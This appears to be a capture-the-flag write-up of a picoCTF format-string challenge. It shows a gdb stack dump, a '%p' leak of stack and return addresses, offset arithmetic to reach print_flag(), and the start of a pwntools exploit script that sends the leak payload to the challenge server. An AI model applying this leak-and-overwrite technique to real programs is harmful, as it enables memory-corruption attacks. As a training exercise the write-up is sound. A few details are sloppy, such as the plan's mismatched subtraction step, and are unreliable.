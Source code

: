 ```
(gdb) x/32gx $rsp
0x7fffffffdb00:	0x000a414141414141	0x0000000000040000
0x7fffffffdb10:	0x0000000000008000	0x00007fffffffdb48
0x7fffffffdb20:	0x0000004e00000006	0x0000000000000000
0x7fffffffdb30:	0x0000000000000000	0x0000000000000000
0x7fffffffdb40:	0x0000000000000000	0x0000000000000000
0x7fffffffdb50:	0x0000000000000000	0x0000000000000000
0x7fffffffdb60:	0x0000000000000000	0x10c951236013a000
0x7fffffffdb70:	0x00007fffffffdb80	0x0000555555555413
```

At the top of the satck, we see our input `AAAAAA`, and the **last** value is the **return** address.  
By disassembling `main()` we see that the address of the **next** instruction from the call to `echo_valley()` is the same. 

Now, I will enter `%p.` 21 times as my input, to view the stack at runtime.
```
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
You heard in the distance: 0x7fffffffd950.(nil).(nil).0x5555555596f0.0x410.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e70252e.(nil).(nil).(nil).(nil).(nil).0x9026e5e25e6d900.0x7fffffffdb80.0x555555555413.
```
We see that:  
1) Our input starts at the **6th** position, so our  offset will be **6**
2) The **last** value is the **return address**
3) The **second last** value is a **stack address**, specifically the one **8 bytes** *after* the return address

This means that now at runtime
1) We will have a **stack address** from which we can **calculate** the position of the **return address** in the stack.
2) The return address of `echo_valley()` from which we can calculate the address of `print_flag().

To find the address of `print_flag()`, we can use `gdb`, disassemble `print_flag()` and get the address of the first instruction.  
`print_flag()` address: **0x0000555555555269**
Return address: **0x0000555555555413**

Offset: Return Address - `print_flag()` address = **0x1AA**.

### Plan of Action
- **Run** the binary and enter `%p.` 21 times
- Get the **second last** value, which is a stack address, and **subtract** 8 bytes
- Get the **last** value, which is the return address, and **subtract**  8 bytes
- Construct our payload

To do all this, I will use a **Python** using `pwntools`

### Script
```python
from pwn import *

target_addr = -0x8
value_to_write = -0x1AA

conn = remote('shape-facility.picoctf.net', 63380)

def find_offset():
   print(conn.recvline())
   payload = b'%p.' * 21
   print(payload)
   conn.sendline(payload)
   print(conn.recvline())
   conn.sendline(b"exit")
```